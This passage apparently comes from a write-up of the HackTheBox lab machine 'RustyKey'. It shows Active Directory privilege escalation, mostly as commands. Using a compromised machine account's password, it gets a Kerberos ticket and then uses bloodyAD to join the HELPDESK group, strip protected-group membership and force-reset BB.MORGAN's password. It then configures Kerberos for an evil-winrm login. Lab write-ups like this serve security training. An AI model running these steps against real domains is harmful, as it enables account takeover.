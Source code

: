 Apparently, **IT-COMPUTER3$** can add itself to **HELPDESK** group which has *GenericWrite* permission on DD.ALI,  *ForceChangePassword* permission on EE.REED, GG.ANDERSON, BB.MORGAN and *AddMember* permission on **PROTECTED OBJECTS**.

The **PROTECTED OBJECTS** group, further has a member group - **PROTECTED USERS**. Checking the members of these groups, indicate that we would need to tinker with these groups to un-protect some members before targeting them.
![Protected Users](./protected-users.png)

Having obtained the password for the new account, let us get its TGT and change the password of `BB.Morgan`.
```
getTGT.py rustykey.htb/IT-COMPUTER3$:'Rusty88!'
export KRB5CCNAME='IT-COMPUTER3$.ccache'
```

```
bloodyAD -d rustykey.htb -u IT-COMPUTER3 -p 'Rusty88!' -k --host dc.rustykey.htb add groupMember 'HELPDESK' 'IT-COMPUTER3$'
bloodyAD -d rustykey.htb -u IT-COMPUTER3 -p 'Rusty88!' -k --host dc.rustykey.htb remove groupMember 'PROTECTED OBJECTS' IT
bloodyAD -d rustykey.htb -u IT-COMPUTER3 -p 'Rusty88!' -k --host dc.rustykey.htb set password 'BB.MORGAN' 'cocoRocks@1'
```

To use `evil-winrm` to login as __BB.MORGAN__, we would need to configure `krb-user` by changing `/etc/krb5.conf`.
```
[libdefaults]
    default_realm = RUSTYKEY.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false

[realms]
    RUSTYKEY.HTB = {
        kdc = dc.rustykey.htb
    }

[domain_realm]
    .rustykey.htb = RUSTYKEY.HTB
    rustykey.htb = RUSTYKEY.HTB
```
